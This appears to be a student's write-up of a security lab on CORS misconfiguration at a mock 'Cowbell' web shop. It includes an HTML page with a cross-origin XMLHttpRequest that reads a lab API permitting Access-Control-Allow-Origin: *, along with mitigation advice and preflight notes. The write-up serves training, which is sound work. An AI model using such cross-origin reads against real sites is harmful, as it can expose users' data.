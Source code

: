 # Cowbell Shop 9 - CORS

## Challenge

Cross Origin Requests \(CORS\) vs. Same-Origin-Policy \(SOP\).

## Answer

### Explain the security problem  

* CORS is a mechanism to bypass the Same Origin Policy  
* Websockets are not subordinated to CORS 
* CORS Attack Scenarios
  * Stealing Data
  * CSRF the easy way



### Explain your attack. \(exploit, screenshot, hacking journal\) 

Step 1\) Open Cowbell Web Shop and Theia WEB IDE

Step 2\) Change `change_me.html ,` add the URL and open the URL `https://7bc7e2f3-df76-477a-ac25-72b285312f0e.idocker.vuln.land/change_me.html`

{% code title="" %}
```markup
<!DOCTYPE html>
<html lang="en">

<head>
	<meta charset="UTF-8">
	<title>Glocken Emil's Product API</title>
</head>

<body>
	<div id="root">
		<h1>Glocken Emil's Product API</h1>
	</div>
    Execute Script
	<script>
		const app = document.getElementById('root'); 
        const container = document.createElement('div'); 
        app.appendChild(container); 
        var request = new XMLHttpRequest(); 
        request.open('GET', 'https://6522250e-5430-4dd6-a964-d0cf675baf91.idocker.vuln.land/api/product', true); 
        request.onload = function () { var data = JSON.parse(this.response); 
            data = data.data.products; 
            if (request.status >= 200 && request.status < 400) 
            { 
                data.forEach(product => { const card = document.createElement('div'); 
                    const h3 = document.createElement('h3'); 
                    const p1 = document.createElement('p'); 
                    const p2 = document.createElement('p'); 
                    const p3 = document.createElement('p'); 
                    h3.textContent = product.name; 
                    p1.textContent = "Category: " + product.category.name; 
                    p2.textContent = "Price: " + product.price; 
                    p3.textContent = "Size: " + product.size; 
                    container.appendChild(card); 
                    card.appendChild(h3); 
                    card.appendChild(p1); 
                    card.appendChild(p2); 
                    card.appendChild(p3); 
                }); 
            } 
    }
    request.send(); 
	</script>
    End Script
</body>

</html>
```
{% endcode %}

![](../../.gitbook/assets/image%20%28368%29.png)

Step 3\) See in the DevTools that the HTTP Response header from `/api/product` has the following:

`Access-Control-Allow-Origin: *` 

![](../../.gitbook/assets/image%20%28370%29.png)



### Explain mitigation \(remedy\)

* The most secure is not to set any  `Access-Control-Allow-Origin`

  on the server at all

* Second set the value never to `*` , instead specify a for you trusted host
* =&gt; In this challenge remove or adjust the HTTP Response header 

  * `Access-Control-Allow-Origin`

  from the `/api/product` API 



## Solution

### Was a preflight request required? why yes or no?

No, there was no preflight \(`OPTIONS`\) request since it was a `GET`-Request  \(see `change_me.html`\) and a `GET`-Request qualifies as a "Simple Request". See [https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS\#simple\_requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests)

#### Did the server set a proper Access-Control-Allow-Origin response header?

No, the servers HTTP Response header was set to `Access-Control-Allow-Origin: *` 

=&gt; See mitigation above

